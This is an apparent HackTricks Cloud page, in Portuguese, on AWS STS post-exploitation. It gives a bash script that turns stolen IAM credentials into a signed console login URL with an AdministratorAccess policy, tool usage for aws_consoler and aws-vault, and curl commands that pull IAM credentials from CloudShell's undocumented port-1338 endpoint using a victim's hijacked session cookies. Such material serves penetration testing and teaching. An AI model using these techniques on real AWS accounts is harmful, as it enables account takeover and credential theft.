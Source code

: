 # AWS - STS Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## STS

Para mais informações:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### De Credenciais IAM para Console

Se você conseguiu obter algumas credenciais IAM, pode estar interessado em **acessar o console da web** usando as seguintes ferramentas.\
Observe que o usuário/role deve ter a permissão **`sts:GetFederationToken`**.

#### Script personalizado

O seguinte script usará o perfil padrão e uma localização padrão da AWS (não gov e não cn) para lhe dar uma URL assinada que você pode usar para fazer login no console da web:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Você pode **gerar um link para o console da web** com [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Certifique-se de que o usuário IAM tenha permissão `sts:GetFederationToken`, ou forneça um papel para assumir.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) é uma ferramenta para armazenar e acessar com segurança as credenciais da AWS em um ambiente de desenvolvimento.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Você também pode usar **aws-vault** para obter uma **sessão de console do navegador**
{% endhint %}

#### Do Console para Credenciais IAM

[**Descoberto originalmente neste post**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Se você conseguir comprometer algum acesso a um console web (talvez você tenha roubado cookies e não conseguiu acessar a pasta .aws), você pode obter algumas credenciais de token IAM para esse usuário através do **CloudShell**.

CloudShell expõe credenciais IAM através de um **endpoint não documentado na porta 1338**. Após carregar os cookies de sessão da vítima no seu navegador, você pode navegar até o CloudShell e emitir os seguintes comandos para obter credenciais IAM.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
